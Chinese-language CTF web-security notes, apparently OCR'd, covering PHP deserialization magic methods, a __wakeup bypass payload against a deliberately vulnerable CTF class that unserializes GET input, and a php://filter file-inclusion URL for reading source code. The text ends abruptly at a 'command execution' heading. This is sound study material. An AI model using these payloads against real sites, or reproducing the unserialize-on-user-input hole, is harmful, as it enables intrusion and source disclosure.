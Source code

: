 
```
<?php
$randStr = array();
for($i=0;$i<50;$i++) { //先产生 32个随机数
$randStr[$i]=rand(0,30);
if($i>=31) {
echo "$randStr[$i]=(".$randStr[$i-31]."+".$randStr[$i-3].") mod 31"."\n";
}
}
?>
```

#### 反序列化

__construct()：构造函数，当对象创建(new)时会自动调用。但在unserialize()时是不会自动调用的。
__destruct()：析构函数，当对象被销毁时会自动调用。
__wakeup() ：如前所提，unserialize()时会自动调用。
PHP unserialize() 后会导致 __wakeup() 或 __destruct() 的直接调用，中间无需其他过程。因此最理想的情况就是一些漏洞/危害代码在 __wakeup() 或 __destruct() 中。

##### __wakeup 函数绕过

PHP 有个 Bug，如果反序列化出现问题，会不去执行 __wakeup 函数，例如：



```
<?php
class xctf
{
public $flag = "111";
public function __wakeup()
{
exit('bad requests');
}
}
//echo serialize(new xctf());
echo unserialize($_GET['code']);
echo "flag{****}";
?>
```

使用这个 payload 绕过 __wakeup 函数



```
O:4:"xctf":1:{s:4:"flag";s:3:"111";}
http://www.example.com/index.php?code=O:4:"xctf":2:{s:4:"flag";s:3:"111";}
```

在字符串中，前面的数字代表的是后面字符串中字符的个数，如果数字与字符个数不匹配的话，就会报错，因此将1改成2就会产生报错，导致不会去执行 __wakeup 函数，从而绕过该函数。

#### 文件包含

http://10.2.1.1:20770/index.php?page=upload
这种 url 很容易就能想到可能是文件包含或者伪协议读取
http://10.2.1.1:20770/index.php?page=php://filter/read=convert.base64-encode/resource=upload
命令执行
